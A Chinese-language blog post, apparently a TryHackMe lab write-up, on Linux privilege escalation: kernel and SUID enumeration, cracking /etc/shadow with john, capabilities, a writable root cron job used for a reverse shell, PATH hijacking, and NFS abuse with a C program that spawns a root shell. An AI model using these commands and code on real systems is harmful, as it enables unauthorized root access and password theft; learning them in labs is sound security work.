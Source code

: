 ```yaml
---
layout: post
title:  "Linux Privilege Escalation"
date:   26 June 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來迅速了解關於Linux提權的常用手法，可能會有些簡陋，主要是提供自己一個思路。在真正提權時根據這個思路來走才不會忙手忙腳怕漏東漏西

介紹的手法出自 [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)，有興趣的朋友可以自行查閱，後續若有看到新的手法會再進行補充

***提權手法:***
1. [Kernel Exploit](#1-kernel-exploit)
2. [Sudo -l](#2-sudo--l)
3. [SUID](#3-suid)
4. [Capabilities](#4-capabilities)
5. [Cron Jobs](#5-cron-jobs)
6. [PATH](#6-path)
7. [NFS](#7-nfs)

### 1. Kernel Exploit
有些Linux版本內核會有漏洞可以利用來提權，這部分可以在最剛開始拿到權限時就進行測試，因為不需要跑什麼腳本，可以通過簡單的查詢來快速排除/利用此項提權手法:

```bash
hostname
uname -a
cat /proc/version
cat /etc/issue
```

查到內核版本後上網查這個版本是否有CVE漏洞可以用來提權，注意這邊版本必需要直接對應，以及使用漏洞前要先徹底了解腳本會帶來的影響，因為這類型的腳本通常有可能造成系統crash

### 2. sudo -l
快速查閱當前用戶有沒有被授予對特定程序的sudo權限，如果有可利用 [GTFOBins](https://gtfobins.github.io/#) 查實際的提權手法

通常來說提權後關注的文件有:
- `/etc/passwd`
- `/etc/shadow`

獲得這兩個文件後可利用 **unshadow + john** 來破解用戶密碼:

```bash
#有兩個文件分別對應/etc/shadow & /etc/passwd
unshadow password.txt shadow.txt > unshadow.txt
john unshadow.txt
```

### 3. SUID
通過 **find** 指令查詢所有設置SUID的程序，進一步利用 [GTFOBins](https://gtfobins.github.io/#) 查實際提權手法

```bash
find / -type f -perm -04000 -ls 2>/dev/null
find / -perm -4000 -user root 2>/dev/null
```

順帶一提，可以利用 **id** 來查自己或別的用戶的權限以及所在群組，非常有用:

```bash
id
id jerry
```

### 4. Capabilities
*Capability 是 Linux 內核從 2.2 起引入的權限模型，可以讓某些程式在不設 SUID 的情況下擁有特權操作*

因此，如果用 `find` 查詢 SUID 的話是查不出 capability 的，因為它們所在的層面不同，雖然同樣屬於access control。要查詢Capability可以用 **getcap** 來查:

```bash
getcap -r / 2>/dev/null
```

若有查到類似 **cap_setuid+ep** 之類的就表示可能可以利用，因為還要在用 `ls` 檢查 owner 是否為 root 才能利用。當然這一步也可以在使用 **linpeas** 的時候就看到結果，只不過要自己去翻就是了 :D

### 5. Cron jobs
Linux的自動排程程序也可以作為提權手段，思路就是如果有排程任務它的擁有者是root，並且我們擁有這個排程任務執行的script的寫的權限，那麼我們就可以做提權

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

- 例如像上面這個crontab，我們可以先找一下有沒有antivirus.sh，發現好像沒有這個文件，那麼我們正常來說可以創造一個名為 antivirus.sh 的文件並放在 PATH 下，但是當我們檢查這麼多個PATH之後發現當前用戶都沒有寫入權限，因此pass
- 再來我們去檢查 /home/karen/backup.sh 我們有無寫入權限，也是沒有因此pass
- 最後看到/tmp/test.py，對/tmp目錄我們有寫入權限，因此創建一個bash file名為test.py，內容是一個reverse shell返回到我們攻擊主機
- 注意這個test.py實際上並不是python file而是bash file，因為python file的話需要在裡面進一步設置setuid(0)之類的，而我們自己創造的test.py實際上並沒有權限可以這麼做，因此直接利用bash file執行reverse shell即可

### 6. PATH
利用的就是有些程序調用時使用例如 `os.system("vim")`也就是沒有使用絕對路徑，這樣的話linux會默認到環境變數PATH下依照順序到各個目錄下看有沒有這麼一個程序名為 `vim`。但如果下面條件有任何一項符合的話我們就可以利用環境變數PATH來提權:
- PATH中有哪些folder並且有folder我們有寫入權限
- 當前用戶有無權限修改PATH

**所以我們可以簡化出一個流程用於檢查是否可以利用PATH提權**：
- PATH中有哪些folder
- (二則一)這些folder有沒有w權限
- (二則一)可不可以修改PATH
- 有沒有script/application可以利用的(也就是有使用相對路徑調用的)

**常用指令:**

```bash
# 查看PATH
echo $PATH
# 查哪些folder當前用戶有寫入(w)權限
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
# 修改PATH
export PATH=/tmp:$PATH
```

### 7. NFS
NFS (Network File Sharing)也可以用來提權，思路就是在攻擊主機中mount到受害者主機分享的資料夾，之後用root用戶創建一個executable並且設置SUID，這樣在受害者主機上也會是root權限和SUID:
- 查看NFS 
  
```bash
# victim's perspective
cat /etc/exports
```

- 攻擊者主機:找出NFS並且mount到shared folder 
  
```bash
# attacker's perspective
showmount -e <VICTIM_IP>    #找出shared folders
mkdir /tmp/ttmp
mount -o rw <VICTIM_IP>:<SHARED_FOLDER> /tmp/ttmp   #mount到攻擊者主機文件夾
```
  
- 建一個ELF executable並且權限為owner:root和SUID

```c
#include <unistd.h>
#include <stdlib.h>

int main(){
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

- 編譯為ELF executable

```bash
gcc nfs.c -o nfs -w
chmod +s nfs
```

- 最後在reverse shell上執行

```bash
./nfs
```

### 自我總結
提權手法類別:
- kernel exploit
- sudo -l
- SUID
- capability
- cron jobs
- PATH
- NFS

## 學習資料
1. [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc)

</div>
</body>
</html>
